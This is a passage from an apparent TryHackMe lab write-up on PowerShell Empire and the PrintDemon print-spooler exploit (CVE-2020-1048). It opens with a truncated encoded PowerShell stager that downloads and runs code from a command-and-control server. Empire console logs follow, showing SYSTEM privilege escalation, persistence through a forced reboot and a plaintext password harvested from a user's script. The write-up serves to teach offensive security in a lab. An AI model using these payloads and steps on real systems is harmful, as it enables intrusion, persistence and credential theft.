MANQA9AE4AZQB3AC0ATwBCAEoAZQBDAFQAIABTAFkAUwB0AGUATQAuAE4ARQBUAC4AVwBFAGIAQwBsAGkAZQBuAHQAOwAkAHUAPQAnAE0AbwB6AGkAbABsAGEALwA1AC4AMAAgACgAVwBpAG4AZABvAHcAcwAgAE4AVAAgADYALgAxADsAIABXAE8AVwA2ADQAOwAgAFQAcgBpAGQAZQBuAHQALwA3AC4AMAA7ACAAcgB2ADoAMQAxAC4AMAApACAAbABpAGsAZQAgAEcAZQBjAGsAbwAnADsAJABzAGUAcgA9ACQAKABbAFQAZQB4AHQALgBFAG4AYwBPAEQAaQBuAGcAXQA6ADoAVQBuAEkAYwBPAGQARQAuAEcARQBUAFMAdABSAGkAbgBHACgAWwBDAE8ATgB2AGUAUgB0AF0AOgA6AEYAcgBvAG0AQgBBAFMARQA2ADQAUwBUAFIASQBOAEcAKAAnAGEAQQBCADAAQQBIAFEAQQBjAEEAQQA2AEEAQwA4AEEATAB3AEEAeABBAEQAawBBAE0AZwBBAHUAQQBEAEUAQQBOAGcAQQA0AEEAQwA0AEEATQBRAEEAMABBAEQAUQBBAEwAZwBBADMAQQBEAGMAQQBPAGcAQQB4AEEARABJAEEATQB3AEEAMABBAEQAVQBBACcAKQApACkAOwAkAHQAPQAnAC8AYQBkAG0AaQBuAC8AZwBlAHQALgBwAGgAcAAnADsAJABFADYAYwBDADUALgBIAGUAYQBkAEUAcgBzAC4AQQBEAEQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJABFADYAYwBjADUALgBQAHIATwB4AFkAPQBbAFMAWQBzAFQAZQBNAC4ATgBlAFQALgBXAGUAYgBSAEUAcQBVAGUAUwBUAF0AOgA6AEQARQBGAGEAVQBsAHQAVwBlAGIAUABSAG8AWABZADsAJABFADYAQwBDADUALgBQAFIAbwB4AHkALgBDAFIAZQBEAGUAbgB0AEkAYQBMAFMAIAA9ACAAWwBTAFkAUwB0AGUAbQAuAE4AZQBUAC4AQwBSAEUARABFAE4AVABpAGEAbABDAEEAYwBIAGUAXQA6ADoARABlAGYAQQBVAGwAdABOAGUAVAB3AG8AUgBLAEMAcgBlAGQAZQBOAFQAaQBBAGwAUwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJABlADYAYwBjADUALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBTAHQARQBtAC4AVABlAFgAdAAuAEUAbgBDAE8ARABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAEUAVABCAFkAdABFAHMAKAAnAGEAdwBYAFUARABrAGkAdAA8AG8AVgA5AEoAYwBSAE8ATAB7ACUAZwBRAC4AfAAzAG4ASABxAE0AcABBAC8AbAAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAGcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMAbwBVAG4AdABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBCAFgATwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAEUANgBjAEMANQAuAEgAZQBBAEQAZQBSAFMALgBBAEQARAAoACIAQwBvAG8AawBpAGUAIgAsACIAcQBhAFUAbwBCAGcAegA9AEYAMAB2AGUAQQB1AGEAbABqAFoAaABKAHUANAB0AGwAKwB6AEoASgA1ACsAUwBCAHAAdwAwAD0AIgApADsAJABkAEEAdABBAD0AJABFADYAYwBDADUALgBEAE8AdwBOAEwAbwBhAGQARABhAHQAQQAoACQAcwBlAHIAKwAkAFQAKQA7ACQAaQB2AD0AJABkAEEAdABBAFsAMAAuAC4AMwBdADsAJABkAEEAVABBAD0AJABkAEEAVABBAFsANAAuAC4AJABkAGEAdABBAC4ATABFAG4ARwBUAEgAXQA7AC0ASgBvAEkAbgBbAEMAaABBAHIAWwBdAF0AKAAmACAAJABSACAAJABEAGEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
(Empire: powershell/privesc/printdemon) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked DGUEYHCT to run TASK_CMD_WAIT
[*] Agent DGUEYHCT tasked with task ID 2
[*] Tasked agent DGUEYHCT to run module powershell/privesc/printdemon
(Empire: powershell/privesc/printdemon) > 
[+] Print Job Started on PrintDemon
[+] Completed registry persistence, waiting on system restart... 

(Empire: powershell/privesc/printdemon) > 
```

### Task 9: Network Persistence

As mentioned in the intro in order for our print job to have privileges to write to `System32`, we need to restart the Print Spooler service. This is a protected process, so the simplest thing to do is restart the machine. Upon restart, our malicious DLL will get written to `System32`. Our script is then written into the registry and will trigger the Fax service to initiate a `SYSTEM` level agent to call back to our Empire server.



Launching Invoke-PrintDemon as a Script Command

Reboot the machine and win.

`shell restart-computer -force`

Alternatively,

`usemodule management/restart`

After this point, you should have persistence on the machine and can answer the 2 Bonus Questions.

**Note**: Restarting the machine can take up to 3 minutes.

We force a restart of the machine and wait for a new connection

```bash
(Empire: powershell/privesc/printdemon) > usemodule powershell/management/restart
(Empire: powershell/management/restart) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked DGUEYHCT to run TASK_CMD_WAIT
[*] Agent DGUEYHCT tasked with task ID 2
[*] Tasked agent DGUEYHCT to run module powershell/management/restart
(Empire: powershell/management/restart) > 
Restarting computer
[*] Sending POWERSHELL stager (stage 1) to 10.64.128.245  
[*] New agent F38UMYPK checked in
[+] Initial agent F38UMYPK from 10.64.128.245 now active (Slack)
[*] Sending agent (stage 2) to F38UMYPK at 10.64.128.245

(Empire: agents) > agents

[*] Active agents:
                                                                                                                                                                                                             
 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 PLR8WSA6 ps 0.0.0.0         DESKTOP-E920628   DESKTOP-E920628\Sam     powershell         6804   5/0.0    2026-02-07 12:54:12  http            
 DGUEYHCT ps 10.64.128.245   DESKTOP-E920628   DESKTOP-E920628\Sam     explorer           2532   5/0.0    2026-02-07 12:54:07  http            
 F38UMYPK ps 10.64.128.245   DESKTOP-E920628   *WORKGROUP\SYSTEM       powershell         1456   5/0.0    2026-02-07 12:59:18  http            


(Empire: agents) > interact F38UMYPK
(Empire: F38UMYPK) > whoami
[*] Tasked F38UMYPK to run TASK_SHELL
[*] Agent F38UMYPK tasked with task ID 1
(Empire: F38UMYPK) > 
NT AUTHORITY\SYSTEM

(Empire: F38UMYPK) > 
```

---------------------------------------------------------------------------------------

#### What is the name of the DLL that is written to System32?

Hint: Checkout: [https://github.com/ionescu007/faxhell](https://github.com/ionescu007/faxhell)

Answer: `Ualapi.dll`

### Task 10: Bonus Points: Find Other Users

Take a look around and find if anyone else uses this machine.


---------------------------------------------------------------------------------------

#### What is the other user on the machine?

Hint: "net users"

```bash
(Empire: F38UMYPK) > shell net users
[*] Tasked F38UMYPK to run TASK_SHELL
[*] Agent F38UMYPK tasked with task ID 10
(Empire: F38UMYPK) > 
User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
John                     Sam                      WDAGUtilityAccount       
The command completed with one or more errors.


..Command execution completed.

(Empire: F38UMYPK) > 
```

Answer: `John`

### Task 11: Bonus Points: Steal Admin Credentials


---------------------------------------------------------------------------------------

#### What is the other user's password?

Hint: Admins love to save automated scripts on their computers.

We can search for PowerShell scripts under John's home directory

```bash
(Empire: F38UMYPK) > shell where.exe /R C:\Users\John *.ps1
[*] Tasked F38UMYPK to run TASK_SHELL
[*] Agent F38UMYPK tasked with task ID 13
(Empire: F38UMYPK) > 
C:\Users\John\Desktop\startscript.ps1

..Command execution completed.

(Empire: F38UMYPK) > shell type C:\Users\John\Desktop\startscript.ps1
[*] Tasked F38UMYPK to run TASK_SHELL
[*] Agent F38UMYPK tasked with task ID 14
(Empire: F38UMYPK) > 
$pwd1 = "1q2w3e!Q@W#E1q2w3e"
$user = 'John'
$pwd = ConvertTo-SecureString -String $pwd1 -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
Start-Process -FilePath "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -Credential $Credential -WorkingDirectory "C:\Windows\System32\WindowsPowerShell\v1.0\"

..Command execution completed.

(Empire: F38UMYPK) > 
```

Answer: `1q2w3e!Q@W#E1q2w3e`

### Task 12: Down the Rabbit Hole


If you are interested in other material check out these blog topics and rooms:

#### Blogs

- [Reflective PE Injection](https://www.bc-security.org/reflective-pe-injection-in-windows-10-1909/)
- [Outlook Sandbox Evasion](https://www.bc-security.org/i-think-you-have-the-wrong-number-using-errant-callbacks-to-enumerate-and-evade-outlook-s-sandbox/)

#### TryHackMe Rooms

- [PS Empire Room](https://tryhackme.com/room/rppsempire)
- [ZeroLogon Room](https://tryhackme.com/room/zer0logon)
- [Blue Room (Eternal Blue)](https://tryhackme.com/room/blue)

For additional information, please see the references below.

## References

- [Docker (software) - Wikipedia](https://en.wikipedia.org/wiki/Docker_(software))
- [Dynamic-link library - Wikipedia](https://en.wikipedia.org/wiki/Dynamic-link_library)
- [Empire - Docker Hub](https://hub.docker.com/r/bcsecurity/empire/tags)
- [Empire - GitHub](https://github.com/BC-SECURITY/Empire)
- [Empire - Kali Tools](https://www.kali.org/tools/powershell-empire/)
- [Empire - Wiki](https://bc-security.gitbook.io/empire-wiki/)
- [Evil-WinRM - GitHub](https://github.com/Hackplayers/evil-winrm)
- [Evil-WinRM - Kali Tools](https://www.kali.org/tools/evil-winrm/)
- [faxhell ("Fax Shell") - GitHub](https://github.com/ionescu007/faxhell)
- [Invoke-PrintDemon - GitHub](https://github.com/BC-SECURITY/Invoke-PrintDemon)
- [Net user - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771865(v=ws.11))
- [PowerShell - Wikipedia](https://en.wikipedia.org/wiki/PowerShell)
- [PrintDemon (CVE-2020-1048) - GitHub](https://github.com/ionescu007/PrintDemon)
- [PrintDemon: Print Spooler Privilege Escalation, Persistence & Stealth (CVE-2020-1048 & more)](https://windows-internals.com/printdemon-cve-2020-1048/)
- [Starkiller - GitHub](https://github.com/BC-SECURITY/Starkiller)
- [where - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/where)
- [Windows Remote Management - Wikipedia](https://en.wikipedia.org/wiki/Windows_Remote_Management)
